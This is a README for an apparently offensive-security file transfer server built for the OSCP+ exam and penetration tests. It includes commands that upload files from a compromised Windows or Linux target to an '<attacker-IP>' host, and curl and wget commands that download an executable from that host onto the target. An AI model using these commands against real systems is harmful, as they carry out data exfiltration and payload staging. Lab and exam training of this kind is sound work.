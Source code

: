 # OSCP-Plus-Prep

##  File Transfer Server

This is a lightweight Python HTTP server designed for quick and easy file transfers between machines. It is particularly useful in penetration testing scenarios, such as the OSCP+ exam, where transferring files between an attacker's machine and a compromised target is necessary.

### Features

- Supports both **file upload (PUT request)** and **file download (GET request)**.
- Works on **Windows, Linux, and macOS**.
- Requires **no dependencies** beyond Python's standard library.
- Custom **colored output** for better visibility.

---

## How to Use

### 1. Starting the Server

To start the server, run the following command on your attacker machine:

```bash
python3 server.py
```
or specify a custom port:

```bash
python3 server.py 8080
```

By default, the server runs on port `80`, but you can specify any available port, such as `8080`.

---

## Transferring Files

### Uploading Files to the Attacker Machine

#### **From a Windows Target (Using PowerShell)**

To upload a file from a Windows target to your attacker's machine:

```powershell
Invoke-WebRequest -Uri "http://<attacker-IP>/file.txt" -InFile "C:\Users\Documents\file.txt" -Method Put
```

#### **From a Linux Target**

Using `curl` (recommended):

```bash
curl -T file.tar.gz http://<attacker-IP>/file.tar.gz
```

Using `wget`:

```bash
wget --method=PUT --body-file=file.tar.gz http://<attacker-IP>/file.tar.gz
```

---

### Downloading Files from the Attacker Machine

#### **From Any Target (Windows/Linux/macOS)**

To download a file from the attacker's machine to your target:

```bash
curl http://<attacker-IP>/file.exe -o file.exe
```

This will save the `file.exe` file from the attacker's machine to the target.

If curl is not available on the system, you can use wget to download files as well:

```bash
wget http://<attacker-IP>/file.exe -O file.exe
```

---

## Author

**Created by:** `glitcher`
